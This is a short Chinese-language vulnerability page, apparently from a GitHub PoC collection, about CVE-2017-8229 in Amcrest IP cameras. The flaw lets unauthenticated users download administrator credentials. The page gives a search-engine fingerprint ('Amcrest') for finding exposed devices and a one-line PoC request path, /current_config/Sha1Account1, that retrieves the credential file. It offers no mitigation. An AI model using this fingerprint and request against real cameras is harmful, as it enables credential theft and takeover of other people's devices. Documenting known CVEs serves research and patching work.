


# Amcrest IP Camera Web Sha1Account1 账号密码泄漏漏洞 CVE-2017-8229

## 漏洞描述

Amcrest IP Camera Web是Amcrest公司的一款无线IP摄像头，设备允许未经身份验证的攻击者下载管理凭据。

## 漏洞影响

```
Amcrest Technologies. Amcrest IP Camera Web all
```

## 网络测绘

```
"Amcrest"
```

## 漏洞复现

登录页面



POC

```
/current_config/Sha1Account1
```

